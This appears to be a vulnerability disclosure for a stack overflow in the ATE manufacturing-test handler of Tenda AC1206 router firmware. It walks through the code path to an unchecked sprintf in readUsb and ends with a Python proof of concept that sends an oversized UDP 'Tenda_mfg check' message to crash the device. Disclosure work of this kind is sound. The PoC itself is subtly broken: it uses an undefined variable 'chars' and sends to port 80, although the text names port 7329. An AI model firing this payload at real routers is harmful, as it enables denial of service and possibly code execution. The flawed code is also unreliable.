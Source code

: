 # Description



Tenda AC1206 `ate_Tenda_mfg_check_usb3` and `ate_Tenda_mfg_check_usb` has stack overflow vulnerability

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version



V15.03.06.23 and earlier

# details



When accessing `url:/goform/ate`, `TendaAte` will be called

![](w01.png)



The `TendaAte` function creates a thread and calls `ate_main_handle`, but, the recv_buf stack var size is ***4096***,  and recv from socket most ***0x1000***

![](000.png)

![](001.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

![](01.png)

When `command` is `Tenda_mfg`and `arg` is `check` or `check USB3.0`, the `ate_Tenda_mfg_check_usb ` or `ate_Tenda_mfg_check_usb3` function is called, the both functions are similar, like:

![](02.png)

![](03.png)

![](04.png)



in `readUsb` function,  the variale `mntFileName` size is ***512*** char, but , there use `sprintf` function to format the two variables into `mntFileName`, there is no ckeck , And will cause stack overflow. maybe cause RCE, furtherly

![](05.png)



![](06.png)


find that, the child thread `300` crash
![](07.png)

poc:

```python
import socket
import time
import os

os.system('curl http://172.30.214.100/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('172.30.214.100', 80)
command = b's' * 999
message = b'Tenda_mfg check'+ chars

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```




